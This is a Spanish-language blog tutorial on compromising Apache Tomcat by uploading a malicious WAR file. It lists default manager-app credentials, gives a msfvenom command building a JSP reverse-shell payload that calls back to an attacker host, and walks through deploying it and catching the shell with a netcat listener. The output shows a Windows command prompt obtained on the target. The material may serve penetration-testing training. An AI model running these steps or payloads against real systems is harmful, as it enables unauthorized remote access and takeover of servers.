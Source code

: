 ```yaml
---
date: 2022-10-29T00:20:05.000Z
layout: post
comments: true
title: Subir archivo malicioso en tomcat
subtitle: 'WAR file'
description: >-
image: >-
    http://imgfz.com/i/rbPl7wv.png
optimized_image: >-
    http://imgfz.com/i/rbPl7wv.png
category: ciberseguridad
tags: 
  - linux
  - hacking
  - exploit
  - vulnerabilidad
  - war
author: Felipe Canales Cayuqueo
paginate: true
---
```


Apache Tomcat es un servidor web de código abierto y contenedor de Servlet para código Java. En esta ocasión se subirá un archivo por medio del "manager app", en el cual muchas veces contiene alguna de las siguientes credenciales:

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

Si ya obtuvimos acceso al "manager app", debemos crear nuestro payload por medio de ```msfvenom```:

```bash
┌──(root㉿kali)-[/tomcat]
└─ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.23 LPORT=443 -f war -o reverse.war                                       
Payload size: 1085 bytes
Final size of war file: 1085 bytes
Saved as: reverse.war
```

```bash
┌──(root㉿kali)-[/tomcat]
└─ ls
reverse.war
```

Ahora dentro del "manager app" nos dirigimos a la sección "archivo WAR a desplegar" y le damos en "Choose File":

![tomcat1](/images/tomcat.png)

Y seleccionamos el archivo ```reverse.war``` y ahora seleccionamos desplegar:

![tomcat2](/images/tomcatwarupload.png)

Nos ponemos a la escucha con ```netcat``` en el puerto 443:

```bash
┌──(root㉿kali)-[/tomcat]
└─ nc -nlvp 443
listening on [any] 443 ...
```

Y abrimos ```/reverse``` en la tabla de aplicaciones de Tomcat:

![tomcat2](/images/tomcatreversewar.png)


Para finalmente obtener nuestra shell interactiva:

```bash
┌──(root㉿kali)-[/tomcat]
└─ nc -nlvp 443
listening on [any] 443 ...
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.11] 49811
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>
```
  
